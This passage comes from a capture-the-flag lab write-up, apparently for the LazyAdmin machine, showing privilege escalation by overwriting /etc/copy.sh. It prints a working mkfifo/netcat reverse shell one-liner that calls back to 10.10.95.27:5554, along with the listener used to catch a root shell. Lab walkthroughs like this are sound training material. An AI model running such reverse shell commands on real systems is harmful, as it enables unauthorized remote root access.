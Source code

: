 The script referenced `/etc/copy.sh`, which contained a reverse shell.

```bash
cat /etc/copy.sh
```

<img src="/assets/images/thm/ctf/lazyadmin-27.png" alt="Contents of copy.sh" style="max-width:100%; height:auto;">

---

## 🚀 Overwriting `copy.sh` to Gain Root

I overwrote `copy.sh` with a reverse shell payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.95.27 5554 > /tmp/f" > /etc/copy.sh
```

<img src="/assets/images/thm/ctf/lazyadmin-28.png" alt="Overwriting copy.sh with Reverse Shell" style="max-width:100%; height:auto;">

---

## 📡 Catching the Root Shell

Set up a new listener on port 5554:

```bash
nc -lvnp 5554
```
